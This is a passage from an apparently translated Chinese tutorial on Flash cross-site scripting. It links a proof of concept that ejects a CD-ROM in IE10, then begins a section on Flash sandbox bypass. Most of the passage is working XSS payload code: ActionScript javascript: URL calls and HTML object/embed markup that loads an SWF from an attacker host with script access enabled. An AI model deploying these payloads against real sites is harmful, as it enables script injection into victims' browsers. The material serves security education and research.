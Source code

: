 最后再献上一个可以弹开你的CD-ROM的POC(测试于IE10)，就像一些老的病毒一样，试试看吧！

[http://0me.me/demo/xss/flash/open_cdrom.html](http://0me.me/demo/xss/flash/open_cdrom.html)

0x05 绕过flash沙箱
--------------

* * *

我们都知道navigateToURL和getUR在flash XSS当中都是一些很常用的手段。但是大前提就是我们需要一个allowScriptAccess来得到脚本访问的许可。下面我将演示如何在不使用allowScriptAccess前提下让脚本运行起来。但是在这之前我们先要了解一下，使用allowScriptAccess的方法应该是什么样的。

首先是flash中AS代码的部分，我将分别给出AS2和AS3的例子。

AS3:

```
navigateToURL(new URLRequest("javascript:alert(document.domain);"),"_self");

```

AS2：

```
getURL("javascript:alert(document.domain)","_self");

```

然后我们的HTML页面看上去，应该像这样：

```
<objectwidth="320"height="240"classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000"codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=6,0,40,0"><paramname="allowScriptAccess"value="always"/><paramname="src"value="http://www.attacker.com/testme/flashtest/normalEmbededXSS.swf"/><embedwidth="320"height="240"type="application/x-shockwave-flash"src="http://www.attacker.com/testme/flashtest/normalEmbededXSS.swf"allowScriptAccess="always"/></object> 

```

当然我们也可以试着让它变得更简短一些：

```
<object width="320" height="240" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=6,0,40,0"><param name="src" value="//www.attacker.com/testme/flashtest/normalEmbededXSS.swf" /><embed width="320" height="240" type="application/x-shockwave-flash" src="//www.attacker.com/testme/flashtest/normalEmbededXSS.swf" /> 

```

但是这个例子在IE下会报错，如果想看详细的错误信息你可以尝试使用debugger版本的flash.但是我们可以使用embed标签，就像下面这样：

```
<object width="320" height="240" classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=6,0,40,0"><param name="allowscriptaccess" value="always" /><param name="src" value="//0me.me/demo/xss/flash/normalEmbededXSS.swf" /><embed width="320" height="240" type="application/x-shockwave-flash" src="//0me.me/demo/xss/flash/normalEmbededXSS.swf" allowscriptaccess="always" /></object> 

```
